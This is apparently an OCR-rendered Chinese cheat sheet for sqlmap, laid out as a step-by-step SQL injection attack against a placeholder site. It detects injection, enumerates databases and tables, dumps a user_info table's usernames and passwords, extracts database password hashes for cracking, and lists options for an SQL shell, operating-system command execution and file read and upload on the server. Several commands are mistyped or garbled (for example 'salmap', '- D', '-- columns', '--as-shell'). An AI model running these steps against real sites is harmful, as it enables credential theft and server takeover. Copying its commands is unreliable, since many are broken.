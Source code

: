 ## 注入点判断
1. 判断是否存在注入点

```
sqlmap -u http://xxx
```


当参数有多个时，需要加双引号

```
sqlmap -u "http://xxx/?id=1&uid=2"
```


2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用

```
salmap -r txt文本
```


## 存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库

```
sqlmap -u http://xxx/ --dbs
```


2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库
<img src="../pictures/j4ddnt2dp1.png" width="600" />
那么现在查询dkeye数据库中有哪些表

```
sqlmap -u http://xxx/ -D dkeye --tables
```


3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表
<img src="../pictures/j79q4i3bahf.png" width="200" />
使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```


4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```


## 获取与数据库用户相关的信息
1. 获取到数据库中的所有用户

```
salmap -u "http://xxx/" --users
```


使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码

```
salmap -u "http://xxx/" --password
``` 
获取到的密码是经过md5加密的，可以在[md5解密网站](https://www.cmd5.com/)
3. 获取当前网脑数据库的名称
```


salmap -u "http://xxx/" --current-db

``` 
4. 获取当前网览数据库的用户名称
```


salmap -u "http://xxx/" --current-user

## 其他参数
1. --level 5：探测等级  

等级|使用
--|--
level 2| HTTP cookie 会加入
level 3| HTTP User-Agent/Referer会加入
level 5| 自动破解出cookie 、 XFF等头部注入。

2. --is-dba 当前用户是否为dba
3. --roles ：列出数据库管理员角色
4. --referer: HTTP Referer 头部伪造。   
指定该字段，会修改sqlmap发送的http报文中的refer字段
5. --sql-shell 运行自定义 SOL 语句
```
sqlmap.py -u http://xxx/ --sql-shell
```
会创建一个sql shell 交互界面，如下图
<img src="../pictures/blq8dh3rbhg.png" width="600" />

6. --os-cmd ，--as-shell ：运行任意操作系统命令
7. --file-read:：从数据库服务器申读取文件
8. --file-write --file-dest 上传文件到数据库服务器申


```{.python .input}

```
